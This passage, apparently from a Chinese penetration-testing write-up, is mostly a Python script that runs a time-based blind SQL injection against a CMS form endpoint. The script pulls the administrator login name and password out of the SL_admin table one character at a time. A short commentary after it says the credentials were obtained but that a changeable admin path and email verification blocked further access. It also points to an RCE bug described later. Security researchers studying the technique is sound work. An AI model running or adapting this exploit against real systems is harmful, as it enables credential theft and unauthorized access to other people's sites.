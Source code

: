 ```python
for i in range(1,33):
    for j in dic:
        data={
            "1-if((select(substr(A_pwd,{},1))from/**/SL_admin)='{}',sleep(5),1)".format(str(i),j):"xxx"
        }
        startTime = time.time()
        res = requests.post(url+'/function/form.php?action=input',data=data)
        endTime = time.time()
        if endTime - startTime > 5:
            result=result+j
            print(str(i)+'[+] '+result)
            break
# select C_admin from SL_config

""" 注入用户名 """
result=''
for x in range(1,30):
    data = {
        "1-if((select(length(A_login))from/**/SL_admin)='{}',sleep(5),1)".format(str(x)):"xxx"
    }
    startTime = time.time()
    res = requests.post(url + '/function/form.php?action=input', data=data)
    endTime = time.time()
    if endTime - startTime > 5:
        print('[+] 用户名长度：' + str(x))
        break

for i in range(1,x+1):
    for j in dic:
        data={
            "1-if((select(substr(A_login,{},1))from/**/SL_admin)='{}',sleep(5),1)".format(str(i),j):"xxx"
        }
        startTime = time.time()
        res = requests.post(url+'/function/form.php?action=input',data=data)
        endTime = time.time()
        if endTime - startTime > 5:
            result=result+j
            print('[+] 用户名：'+result)
            break
```

测试过后，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-30a46bc18d45a04664e2b8709a38ba9534ee9f74.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-30a46bc18d45a04664e2b8709a38ba9534ee9f74.png)

正当我觉得可以进后台RCE的时候（RCE漏洞见后文），现实环境却给我狠狠的上了一课。

- 注入出账号密码，却找不到后台，因为后台是可以改的。
- 找到后台以后，异地登陆要邮件验证码。
